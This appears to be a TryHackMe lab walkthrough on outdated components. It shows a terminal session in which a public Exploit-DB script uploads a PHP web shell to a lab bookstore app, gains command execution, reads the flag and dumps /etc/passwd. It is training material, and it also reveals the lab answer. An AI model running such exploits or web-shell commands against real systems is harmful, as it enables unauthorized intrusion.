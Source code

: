 It is also worth noting that it may not always be this easy. Sometimes you will just be given a version number, like in this case, but other times you may need to dig through the HTML source or even take a lucky guess on an exploit script. But realistically, if it is a known vulnerability, there's probably a way to discover what version the application is running.  

That's really it. The great thing about this piece of the OWASP Top 10 is that the work is already done for us, we just need to do some basic research, and as a penetration tester, you're already doing that quite a bit.

Answer the questions below

Read the above!

 Completed

### Vulnerable and Outdated Components - Lab

Navigate to [http://10.10.89.200:84](http://10.10.89.200:84/) where you'll find a vulnerable application. All the information you need to exploit it can be found online. 

Answer the questions below

```
You know it's a bookstore application. You should check for recent unauthenticated bookstore apps RCEs.

https://www.exploit-db.com/exploits/47887

┌──(witty㉿kali)-[~/Downloads]
└─$ python3 47887.py http://10.10.89.200:84 
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.89.200:84/bootstrap/img/XHkm9Gmx4J.php
> Example command usage: http://10.10.89.200:84/bootstrap/img/XHkm9Gmx4J.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $ cat /opt/flag.txt
THM{But_1ts_n0t_my_f4ult!}

RCE $ cat /etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
apache:x:100:101:apache:/var/www:/sbin/nologin
```